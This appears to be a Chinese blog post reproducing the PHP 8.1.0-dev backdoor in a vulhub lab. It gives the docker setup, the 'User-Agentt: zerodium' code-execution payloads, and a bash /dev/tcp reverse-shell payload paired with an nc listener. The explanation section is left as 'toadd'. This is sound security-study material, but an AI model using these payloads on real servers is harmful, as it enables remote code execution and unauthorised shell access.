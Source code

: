 ```yaml
---
title: 漏洞复现-PHP 8.1.0-dev
description: PHP 8.1.0-dev开发版本后门事件
author: #有默认值
date: 2024-08-28 19:13:14 +0800
categories:  [漏洞复现]
tags:  [漏洞复现,RCE]     # TAG names should always be lowercase
pin:  # 默认false，可填true
math: true
mermaid: true
# image:
#   path: /assets/bar/home.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt:  # 图片名
---
```


## 构建

``` shell
cd vulhub/php/8.1-backdoor
docker-compose up -d 
```

## 漏洞原理
toadd

## PoC（Proof of Concept） 验证漏洞存在的代码
版本验证：PHP 8.1.0-dev
请求站点，response返回版本信息

```http
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html; charset=UTF-8
Date: Wed, 28 Aug 2024 12:51:06 GMT
Host: 127.0.0.1:8081
X-Powered-By: PHP/8.1.0-dev  #

hello world
```
## Exp（Exploit）进行实际的攻击利用
添加特定字段User-Agentt
payload 漏洞利用载荷：

```http
User-Agentt: zerodiumvar_dump(233*233); #将返回执行结果 int(54289)
User-Agentt: zerodiumsystem("ls");
```

执行截图：

![image-20240828155056972](../assets/img/2024-08-28/iShot_2024-08-28_20.10.40.png)

成功执行代码ls



### 建立反弹shell（成功）：

**靶机**构造payload：
```http
User-Agentt: zerodiumsystem("bash -c 'exec bash -i >& /dev/tcp/127.0.0.1/8999 0>&1'");
```
**接收反弹Shell机器**执行：**`nc -lvvp 8999`**


注意：
**接收反弹Shell机器** 监听端口防火墙要放行，任意ip能访问，安装nc
**靶机** 能够执行bash命令，且访问到监听机




## 复现总结

### 

